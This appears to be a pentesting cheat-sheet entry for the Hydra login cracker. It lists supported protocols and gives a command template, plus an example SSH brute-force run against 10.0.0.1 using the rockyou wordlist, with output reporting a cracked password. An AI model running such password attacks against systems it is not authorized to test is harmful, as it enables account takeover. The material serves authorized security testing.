 # hydra
Hydra is a fast login cracker with support for numerous protocols such as:

- Cisco AAA / auth / enable
- FTP
- HTTP
- ICQ
- IMAP
- IRC
- LDAP
- MS-SQL
- MySQL
- NNTP
- PC-Anywhere
- PC-NFS
- POP3
- PostgreSQL
- RDP
- Rexec
- Rlogin
- Rsh
- SIP
- SMB(NT)
- SMTP
- SNMP (v1 - 3)
- SOCKS5
- SSH
- SSHKEY
- Subversion
- Teamspeak
- Telnet
- VMware-Auth
- VNC / XMPP.

`hydra -l <username> -P <wordlist> <protocol>://<address>[:port]`

## Example
`hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.1`

```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-28 10:03:46
[DATA] attacking ssh://10.0.0.1:22/
[22][ssh] host: 10.0.0.1   login: admin   password: complex
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-07-28 10:03:49
```


